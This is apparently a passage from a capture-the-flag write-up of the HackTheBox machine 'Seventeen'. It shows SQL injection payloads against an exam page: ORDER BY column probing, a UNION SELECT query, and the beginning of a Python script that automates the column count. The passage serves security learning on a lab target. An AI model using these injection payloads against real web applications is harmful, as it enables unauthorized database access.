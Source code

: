 It returns a graded result.

![](attachments/seventeen_7.png)

The tried SQL Injection query also works.

`http://exam.seventeen.htb/?p=take_exam&id=1' ORDER BY 20-- -`
With the `ORDER BY` query, I can find that the number of columns is 11.


`http://exam.seventeen.htb/?p=take_exam&id=2%27%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11;%20--%20-` shows another exam page.

![](attachments/seventeen_8.png)

### SQL Injection

##### Find # of Columns

```python
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ cat sqli_find_n_columns.py 
import requests

# 🔧 Configuration: Target URL and response keyword for successful responses
BASE_URL = "http://exam.seventeen.htb/?p=take_exam&id="
SUCCESS_KEYWORD = "202202-00001"
MAX_COLUMNS_TO_TEST = 12

def is_column_count_valid(column_count):
    """
    Check if a specific ORDER BY column count is valid
    """
    payload = f"1' ORDER BY {column_count}-- -"
    target_url = BASE_URL + payload
    try:
        response = requests.get(target_url, timeout=5)
        return SUCCESS_KEYWORD in response.text
```
